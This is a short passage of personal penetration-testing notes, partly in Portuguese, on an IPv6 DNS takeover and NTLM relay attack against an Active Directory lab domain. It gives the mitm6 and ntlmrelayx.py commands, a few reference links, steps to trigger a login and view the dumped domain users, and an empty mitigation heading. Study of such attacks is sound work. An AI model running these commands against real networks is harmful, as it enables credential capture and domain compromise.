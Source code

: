 - IPV6
    
    ```bash
    https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
    https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
    https://github.com/fortra/impacket/releases
    mitm6 -d marvel.local 
    ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad-marvel.local -l lootme
    
    Reiniciar o computador para acelarar o processo
    Login do computador
    
    firefox domain_user_by_group.html
    
    https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
    
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%202.png)
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%203.png)
    
    Mitigação 
    